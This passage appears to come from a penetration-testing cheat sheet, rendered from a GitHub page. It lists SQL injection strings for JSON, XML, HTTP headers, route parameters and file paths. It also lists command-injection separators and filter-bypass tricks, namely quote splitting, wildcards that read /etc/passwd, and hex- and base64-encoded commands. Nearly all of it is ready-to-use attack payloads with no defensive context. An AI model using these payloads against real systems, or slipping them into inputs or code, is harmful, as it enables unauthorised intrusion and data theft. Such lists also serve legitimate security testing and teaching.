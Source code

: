 #### SQLi in Different Contexts

```sql
# JSON context
{"id": "1' OR '1'='1"}

# XML context
<id>1' OR '1'='1</id>

# Header injection
User-Agent: ' OR '1'='1
Cookie: id=1' OR '1'='1

# Route parameter
/user/1' OR '1'='1/profile

# File path
/download?file=../../../../etc/passwd'; SELECT * FROM users--
```

### Command Injection

#### Basic techniques

```bash
# Command separators
; ls
| ls
|| ls
& ls
&& ls
%0a ls (newline)
` ls `
$( ls )

# Bypass filtering
# Quotes
l's'
l"s"

# Wildcards
/bin/c?t /etc/passwd
/bin/ca* /etc/passwd

# Variable expansion
$0 (bash)
$@ (bash)

# Hex encoding
$(echo -e "\x6c\x73")

# Base64
$(echo bHM= | base64 -d)
```
